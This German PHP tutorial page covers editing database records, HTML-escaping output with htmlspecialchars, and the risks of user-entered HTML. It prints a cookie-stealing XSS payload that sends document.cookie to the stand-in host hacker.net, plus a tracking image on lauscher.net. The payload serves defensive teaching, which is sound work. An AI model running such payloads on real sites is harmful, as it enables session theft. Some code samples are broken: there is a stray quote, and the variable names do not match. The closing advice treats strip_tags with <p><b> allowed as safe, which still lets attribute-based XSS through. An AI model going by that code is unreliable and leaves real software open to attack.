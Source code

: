 ```yaml
---
title: Daten Bearbeiten
order: 40
---
```


Wir wollen einen Datensatz aus der Datenbank laden, in einem Formular zur
Bearbeitung anbieten, und dann wieder in der Datenbank speichern.

![Abbildung 150: Formular zum Bearbeiten einer Person](/images/person_edit.png)

Das Lesen des Datensatzes aus der Datenbank erfolgt nun auch mit einem prepared Statement,
da die ID aus dem GET-Parameter gelesen wurde:

<php caption="laden des Datensatzes, der editiert werden soll">
$sth = $dbh->prepare( "SELECT * FROM users WHERE id=?" );
$sth->execute( array( $id ) );
$person = $sth->fetch();
</php>

### Das Bearbeitungs-Formular

Bei der Darstellung des Bearbeitungs-Formulars werden die Daten nun als
Standardwerte dargestellt. Das passiert bei Textfeldern mit dem Value-Attribute
und bei Textareas als Inhalt des Tags:

<htmlcode>
<input name="firstname" value="Tobias">
<textarea name="description" rows="7">Webdesigner</textarea>
</htmlcode>

Achtung: Falls in den Daten Anführungszeichen, kaufmännische Unds oder
Kleiner-Zeichen vorkommen müssen diese für HTML escaped werden.  Hier ein
Beispiel in MySQL:

<sql>
MariaDB [portfolio_playground]> select firstname,description from users where id=438;
+--------------------+--------------------------------+
| firstname          | description                    |
+--------------------+--------------------------------+
| Tobias "der Coder" | Mein Lieblings-Tag ist <style> |
+--------------------+--------------------------------+
1 row in set (0.00 sec)
</sql>

So würde die Darstellung der Eingabefelder nicht funktionieren:

<htmlcode>
<input name="firstname" value="Tobias "the Coder"">
<textarea name="description" rows="7">Mein Lieblings-Tag ist <style></textarea>
</htmlcode>

Das Attribut `value` endet zu früh, und der `<style>` Tag lässt
den Rest der Webseite verschwinden.

§

Richtig ist die Darstellung gewisser Zeichen als HTML Entities:

<htmlcode>
<input name="firstname" value="Tobias &quot;the coder&quot;">
<textarea name="description" rows="7">Mein Lieblings-Tag ist &lt;style&gt;</textarea>
</htmlcode>

Diese Ersetzung wird mit der Funktion
`htmlspecialchars`[&rarr;](http://www.php.net/manual/en/function.htmlspecialchars.php) vorgenommen:

<php>
htmlspecialchars( $person->firstname );
</php>
§

Zusammenfassend sieht die Darstellung des Eingabeformulars so aus:

<php caption="Darstellung eines Eingabe-Felds des Edit-Formulars mit PHP">
<input name="firstname" value="<?php echo htmlspecialchars( $person->firstname ) ?>">
<textarea name="description" rows="7"><?php echo htmlspecialchars( $person->description ) ?></textarea>
</php>

### Verarbeitung des POST-Request

Die veränderten Daten werden mit POST an person_edit.php geschickt. Aus den Daten wird ein UPDATE-Statement erstellt:

<php caption="Update der Daten von PHP aus">
$sth = $dbh->prepare(
  "UPDATE users SET
    firstname=?,surname=?,email=?,
    profile_visible=?,description=? 
   WHERE id=?");

$update_went_ok = $sth->execute(
  array(
    $_POST['firstname'],
    $_POST['surname'],
    $_POST['email'],
    $_POST['profile_visible'],
    $_POST['description'],
    $_POST['id']
  )
);

header("Location: person.php?id=" . $_POST['id']);
exit;
</php>

Escapen von HTML
-----------------
Das Escapen der Daten für HTML hätten wir von Anfang an bei jeder Ausgabe von Daten aus der Datenbank durchführen müssen. Wir haben bisher einfach die Daten direkt mit echo ausgegeben:

<php caption="Ausgabe von Daten aus der Datenbank ohne html-escaping">
<?php echo $person->firstname ?>
<?php echo $person->surname ?>
hat insgesamt  <?php echo $no ?> Werke in dieser Datenbank.
// problematisch!
</php>

§

Wenn hier in der Description „Mein Lieblings-Tag ist &lt;style&gt;“ steht, und dieser Text einfach ausgegeben wird, dann „verschwindet“ der Rest der Webseite, weil er sich nun innerhalb eines Style-Tags befindet.

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = htmlspecialchars( $person->description' );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

Damit funktioniert nun die Darstellung des Datensatzes richtig:

![Korrekte Darstellung eines Datensatzes mit kleiner-Zeichen](/images/image369.png)

 Darstellen von HTML
---------------------
Im letzten Beispielen wurde der eingegebene HTML-Tag sichtbar auf der Webseite
angezeigt. Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags
wieder anzeigen?

### Gefahren
Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist
gefährlich! Dazu zwei Beispiele: Sie bauen ein Gästebuch in dem BesucherInnen
beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Ihrem Webserver geladen, sondern vom Webserver von
Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes
aufgerufen. D.h. Herr Lauscher kann sehr bequem mit-loggen wie viele Zugriffe
auf das Gästebuch erfolgen. Falls Herr Lauscher die Gästebuch-Besucher schon
kennt (schon ein Cookie in Ihrem Browser gesetzt hat) kann er sie auch
identifizieren.

Sie haben Herrn Lauscher also die Möglichkeit gegeben sehr viel über Ihre
BesucherInne zu erfahren. So etwas ähnliches passiert z.B. wenn Sie Google
Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen:
Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele
BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer
vorhergehenden Suche noch ein Cookie haben.)

§

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmloses bild" id="hack_tool" />
<script>
   document.getElementById("hack_tool").src += "?keks=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn Ihres Gästebuchs entwenden. Sie
kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Lassen Sie niemals, niemals, niemals zu, dass Fremde Javascript in Ihre Site einspeisen können!

§

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code
z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und
„wirkt nicht“:

![Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/image370.png)

### Eingabe von HTML

Die Eingabe des HTML-Codes können Sie mit einem Javascript-Editor wie TinyMCE
erleichtern. TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/image371.png)

Mit HTML5 gibt es auch die Möglichkeit ohne Textfeld, mit content-editable einen
Editor zu erstellen. Ein Beispiel dafür ist der Aloha Editor:

![Aloha Editor](/images/aloha.png)

### Behandlugn von eingegebenem HTML

Für die Beispiel-Applikation wollen wir Zulassen, dass im Profil die HTML-Tags
`<p>` und `<b>` verwendet werden können, mehr nicht. Dass es nur diese
Tags und keine anderen sind wird bei der Eingabe und der Bearbeitung sicher
gestellt:

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

Nun können Sie auch die Ausgabe des Profils umstellen und auf das escapen 
der `description` verzichten:

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = strip_tags( $person->description,  "<p><b>" );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>

